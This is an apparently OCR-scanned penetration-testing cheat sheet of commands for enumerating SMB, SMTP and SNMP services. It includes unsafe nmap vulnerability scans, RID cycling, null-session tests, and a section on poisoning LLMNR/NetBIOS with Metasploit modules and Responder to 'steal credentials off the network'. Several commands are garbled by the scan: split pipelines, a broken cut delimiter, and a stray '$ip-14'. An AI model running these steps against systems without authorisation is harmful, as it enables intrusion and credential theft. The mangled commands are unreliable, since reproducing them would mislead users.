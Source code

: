 SMB Finger Printing
smbclient -L //$ip

Nmap Scan for Open SMB Shares
nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 $ip/24

Nmap scans for vulnerable SMB Servers
nmap -v -p 445 --script=smb-check-vulns --script-args=unsafe=1 $ip

Nmap List all SMB scripts installed
ls -l /usr/share/nmap/scripts/smb\*

Enumerate SMB Users

nmap -sU -sS --script=smb-enum-users -p U:137,T:139 $ip-14

python /usr/share/doc/python-impacket-doc/examples /samrdump.py $ip

RID Cycling - Null Sessions
https://www.trustedsec.com/march-2013/new-tool-release-rpc_enum-rid-cycling-attack/

ridenum.py $ip 500 50000 dict.txt

use auxiliary/scanner/smb/smb\_lookupsid

Manual Null Session Testing

Windows: net use \\\\$ip\\IPC$ "" /u:""

Linux: smbclient -L //$ip

LLMNR / NBT-NS Spoofing - Steal credentials off the network.

Spoof / poison LLMNR / NetBIOS requests:
auxiliary/spoof/llmnr/llmnr_response
auxiliary/spoof/nbns/nbns_response

Capture the hashes:
auxiliary/server/capture/smb
auxiliary/server/capture/http_ntlm

Using Responder to Steal Creds
git clone https://github.com/SpiderLabs/Responder.git python Responder.py -i local-ip -I eth0

SMTP Enumeration - Mail Severs

Verify SMTP port using Netcat
nc -nv $ip 25
SNMP Enumeration -Simple Network Management Protocol

Fix SNMP output values so they are human readable
apt-get install snmp-mibs-downloader download-mibs echo "" &gt; /etc/snmp/snmp.conf

SNMP Enumeration Commands

snmpcheck -t $ip -c public

snmpwalk -c public -v1 $ip 1|

grep hrSWRunName|cut -d\* \* -f
